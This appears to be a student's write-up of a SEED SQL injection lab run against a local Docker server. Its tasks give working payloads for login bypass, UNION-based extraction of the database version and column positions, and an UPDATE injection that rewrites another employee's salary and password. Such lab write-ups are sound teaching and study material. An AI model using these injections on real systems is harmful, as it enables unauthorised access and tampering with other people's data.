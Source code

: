 * Setup
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1
** Approach 1
*** Type {{admin';#}} in the username field and anything in the password field
    In the code we can see the comparison of name with 'admin', so there must be an username with 'admin'.
*** Then all the usernames will be shown from where we can find Alice.
*** Type {{Alice;#}} in the username field and anything in the password field and viola!

** Approach 2
*** Insert {{' OR TRUE;#}} in the username field and we are in!
    This works because we are essentially nullyfying the where clause with 'OR TRUE', so the result set contains all the records.
    But in the PHP code, we can see that all the records from the sql results are pushed into the array and only the 0th index is accessed as logged in user.

    #+BEGIN_SRC php
      /* convert the select return result into array type */
      $return_arr = array();
      while($row = $result->fetch_assoc()){
        array_push($return_arr,$row);
      }

      /* convert the array type to json format and read out*/
      $json_str = json_encode($return_arr);
      $json_a = json_decode($json_str,true);
      $id = $json_a[0]['id'];
    #+END_SRC

** Screenshot
#+CAPTION: Login as Alice
[[./screenshots/assignment/task-1-login-alice.png]]


* Task 2
** Approach
*** We can get the columns of a table using the following query
      #+BEGIN_SRC sql
        select column_name from information_schema.columns where table_name = "credential";
      #+END_SRC
*** After that we can use row_number over the partition and get the column numbers 
      #+BEGIN_SRC sql
        select ordinal_position from information_schema.columns where table_name = "credential" and column_name = "Name";
      #+END_SRC
*** Now we can use this expression combined union attack to inject the code and we will get the column number of Name from 
      Inject {{' OR FALSE UNION SELECT 1, (select ordinal_position from information_schema.columns where table_name = "credential" and column_name = "Name"),null,null,null,null,null,null,null,null,null #}}

** Screenshot
[[./screenshots/assignment/task-2-name-column-number.png]]


* Task 3
** Union Attack
*** Insert {{' OR FALSE UNION SELECT 1,version(),null,null,null,null,null,null,null,null,null #}} in the username
    This works because we are essentially nullyfying the first SELECT using FALSE condition and
    then unioning the result of a select statement with equal number of resultants.
    In the manufactured select clause id cannot be null because the code assumes if id exists then user exists, so we put in dummy 1 as id
    and our targeted version() in place of the name field. All other values are null since their contents are unnecessary in this context.

** Screenshot
#+CAPTION: MYSQL Version
[[./screenshots/assignment/task-3-mysql-version.png]]


* Task 4

* Task 5

* Task 6
** Approach 1
*** If we provide eid with {{1' OR TRUE}} and password with {{pass' OR TRUE}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='1' OR TRUE AND
      password='pass' OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.
** Approach 2
*** If we provide eid with {{' TRUE or /*}} and password with {{*/;--}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='' or TRUE /*
      password='*/;-- OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.
    
* Task 7
*** If we set name {{Reddington', salary=1}} and we know an information like eid or other column value unique to the attacker we can update any columns we want.
    Here we are assuming that we know the employee id, then we have to pass {{1';--}} to the employee id.
    #+BEGIN_SRC sql
      UPDATE employee
      SET name='Reddington', salary=1, password='$hashed_newpwd'
      WHERE eid = '1';--and password='$hashed_oldpwd';
    #+END_SRC

